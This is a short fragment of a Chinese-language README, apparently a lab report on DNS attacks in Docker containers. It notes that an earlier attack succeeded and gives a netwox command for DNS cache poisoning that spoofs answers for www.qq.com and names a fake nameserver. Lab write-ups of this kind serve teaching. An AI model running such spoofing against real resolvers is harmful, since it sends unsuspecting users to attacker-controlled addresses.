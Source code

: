 ![image-20220430133409622](README.assets/image-20220430133409622.png)

攻击成功

# P4 netwox缓存中毒攻击

攻击命令

`sudo netwox 105 -h "www.qq.com" -H "1.2.3.4" -a "ns.xzc.com" -A "1.2.3.5" -f "src host 172.17.0.3" -d docker0  -T 600`

攻击前在user上使用dig命令查询www.qq.com，从本地DNS服务器（dnsServer）得到相应结果如下

![image-20220430133535537](README.assets/image-20220430133535537.png)
